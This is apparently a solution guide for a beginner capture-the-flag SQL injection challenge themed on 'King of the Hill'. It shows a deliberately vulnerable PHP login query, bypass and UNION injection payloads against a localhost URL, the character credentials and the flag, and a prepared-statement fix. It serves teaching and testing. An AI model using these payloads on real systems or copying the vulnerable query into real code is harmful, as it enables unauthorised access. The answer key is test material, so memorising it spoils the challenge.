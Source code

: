 # King of the Hill SQL Injection Challenge - Solution Guide

## Challenge Overview

This is a SQL injection challenge themed around the TV show "King of the Hill." Players must exploit a vulnerable login form to access the employee database and retrieve the flag.

## Vulnerability Location

The vulnerability is in `login.php` at lines 200-205:

```php
$username = $_GET['username'];
$password = $_GET['password'];

// Vulnerable SQL query (intentionally for CTF)
$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
```

The application directly concatenates user input into the SQL query without any sanitization or parameterization.

## Solution Methods

### Method 1: Authentication Bypass (Easiest)

**Payload:** `' OR 1=1 --`

**URL:** `http://localhost:8080/login.php?username='+OR+1=1+--&password=anything`

**Explanation:** This payload closes the username field with a single quote, then uses `OR 1=1` to make the condition always true, and `--` comments out the rest of the query.

### Method 2: Using Character Names

Players can try logging in as any of the King of the Hill characters:

- `username=hank&password=propane123`
- `username=dale&password=conspiracy`
- `username=bill&password=army_strong`
- etc.

### Method 3: Union-Based Injection

**Payload:** `' UNION SELECT 1,2,3 --`

**URL:** `http://localhost:8080/login.php?username='+UNION+SELECT+1,2,3+--&password=anything`

This would show the database structure and allow for further enumeration.

## Expected Results

When successful, players should see:

1. **Flag Banner:** `🎉 FLAG{propane_accessories_are_the_best} 🎉`
2. **Employee Records:** All database entries displayed in a table
3. **Statistics:** Number of employees found, database fields, location

## Database Contents

The database contains these King of the Hill character records:

| ID | Username | Password |
|----|----------|----------|
| 1 | hank | propane123 |
| 2 | dale | conspiracy |
| 3 | bill | army_strong |
| 4 | boomhauer | fast_talker |
| 5 | bobby | thats_my_purse |
| 6 | peggy | substitute_teacher |
| 7 | luanne | beauty_school |
| 8 | cotton | killed_fiddy_men |
| 9 | kahn | laotian_pride |
| 10 | admin | FLAG{propane_accessories_are_the_best} |

## Learning Points

1. **Input Validation:** The application fails to validate or sanitize user input
2. **SQL Injection:** Direct concatenation of user input into SQL queries is dangerous
3. **Authentication Bypass:** SQL injection can bypass authentication mechanisms
4. **Database Enumeration:** Attackers can extract sensitive data from databases
5. **Defense:** Use parameterized queries or prepared statements

## Prevention

To fix this vulnerability, the code should use parameterized queries:

```php
$stmt = $conn->prepare("SELECT * FROM users WHERE username=? AND password=?");
$stmt->bindValue(1, $username, SQLITE3_TEXT);
$stmt->bindValue(2, $password, SQLITE3_TEXT);
$result = $stmt->execute();
```

## Difficulty Level

- **Beginner to Intermediate**
- **Estimated Time:** 10-30 minutes
- **Prerequisites:** Basic understanding of SQL and web applications

## CTF Integration

This challenge is perfect for:
- Web security tracks
- SQL injection introduction
- Themed CTF events
- Educational workshops

The King of the Hill theme makes it engaging while teaching important security concepts. 